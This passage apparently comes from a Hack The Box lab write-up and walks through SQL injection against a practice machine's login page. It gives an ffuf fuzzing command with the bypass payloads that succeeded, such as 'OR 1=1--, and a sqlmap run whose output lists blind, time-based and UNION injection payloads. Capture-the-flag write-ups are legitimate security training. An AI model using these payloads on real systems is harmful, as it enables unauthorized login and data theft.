 ![][sqli]

Still, the SQLi testing can be automated with:

```bash
ffuf -X POST -request fuzzing.req \
    -w /usr/share/wordlists/fuzzing/MySQL-SQLi-Login-Bypass.fuzzdb.txt:UNAME \
    -w /usr/share/wordlists/fuzzing/MySQL-SQLi-Login-Bypass.fuzzdb.txt:PASS \
    -t 200 -c -mode pitchfork -mc all -request-proto http
# [Status: 200, Size: 808, Words: 3, Lines: 6, Duration: 136ms]
#     * UNAME: 'OR 1=1--
#     * PASS: 'OR 1=1--
# [Status: 200, Size: 808, Words: 3, Lines: 6, Duration: 138ms]
#     * PASS: ' union select 1, '<user-fieldname>', '<pass-fieldname>' 1--
#     * UNAME: ' union select 1, '<user-fieldname>', '<pass-fieldname>' 1--
# [Status: 200, Size: 808, Words: 3, Lines: 6, Duration: 161ms]
#     * UNAME: <username>' OR 1=1--
#     * PASS: <username>' OR 1=1--
# [Status: 200, Size: 808, Words: 3, Lines: 6, Duration: 164ms]
#     * UNAME: 'OR '' = ' Allows authentication without a valid username.
#     * PASS: 'OR '' = '  Allows authentication without a valid username.
# [Status: 200, Size: 808, Words: 3, Lines: 6, Duration: 186ms]
#     * UNAME: <username>'--
#     * PASS: <username>'--
```

This allows to bypass the login page and gain admin privileges in the web interface.

From the dashboard, it's possible to edit the stories and list the users.
Code / file injection doesn't work here.

The `/dashboard/users` page loads node modules:

```
http://10.10.11.101/vendor/node_modules/popper.js/dist/esm/popper.js
```

## Reading local files

### Crafting a SQL query

```bash
sqlmap -v 2 -u http://10.10.11.101/administrative \
    --dbms mysql --technique=U --answer="redirect=N" --data "uname=&password=" \
    --level 5 --risk 3 --time-sec 2 --batch
# Parameter: uname (POST)
#     Type: boolean-based blind
#     Title: OR boolean-based blind - WHERE or HAVING clause
#     Payload: uname=-5492' OR 4671=4671-- nLCS&password=
#     Vector: OR [INFERENCE]

#     Type: time-based blind
#     Title: MySQL < 5.0.12 OR time-based blind (heavy query)
#     Payload: uname=' OR 4650=BENCHMARK(5000000,MD5(0x53525154))-- xubL&password=
#     Vector: OR [RANDNUM]=IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])

#     Type: UNION query
#     Title: Generic UNION query (NULL) - 6 columns
#     Payload: uname=' UNION ALL SELECT NULL,CONCAT(0x7170627171,0x6f6f5a77655a74415a4a4e4248627a43456563765a647a724557485675616c6d7244435465646777,0x71706a6b71),NULL,NULL,NULL,NULL-- -&password=
#     Vector:  UNION ALL SELECT NULL,[QUERY],NULL,NULL,NULL,NULL-- -
# web server operating system: Linux Ubuntu 19.10 or 20.04 (eoan or focal)
# web application technology: Apache 2.4.41
# back-end DBMS: MySQL < 5.0.12
```


[author-profile]: https://app.hackthebox.eu/users/114053
[check-payload]: images/check-payload.png
[hacktricks-smtp]: https://book.hacktricks.xyz/pentesting/pentesting-smtp
[sqli]: images/sqli.png
[trigger-payload]: images/trigger-payload.png
[upload-image]: images/upload-image.png